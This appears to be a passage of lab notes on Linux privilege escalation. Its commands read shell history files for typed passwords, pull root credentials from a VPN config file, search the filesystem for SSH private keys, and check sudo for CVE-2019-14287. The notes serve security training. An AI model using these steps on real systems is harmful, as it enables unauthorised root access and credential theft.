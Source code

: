 #### History Files

* If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.
* View the contents of all the hidden history files in the user's home directory:

```
cat ~/.*history | less
```

* Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line.
* Note that there is no space between the -p option and the password!

#### Config Files

* Config files often contain passwords in plaintext or other reversible formats.
* List the contents of the user's home directory:

```
ls /home/user
```

* Note the presence of a myvpn.ovpn config file. View the contents of the file:

```
cat /home/user/myvpn.ovpn
```

* The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

```
su root
```

#### SSH Keys

* Sometimes users make backups of important files but fail to secure them with the correct permissions.
* Look for hidden files & directories in the system root:

```
ls -la /
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### Old sudo version

* CVE-2019-14287

```
sudo --version
Sudoers I/O plugin version 1.8.21p2 #output
sudo -l
(ALL, !root) NOPASSWD: /bin/bash #output
```
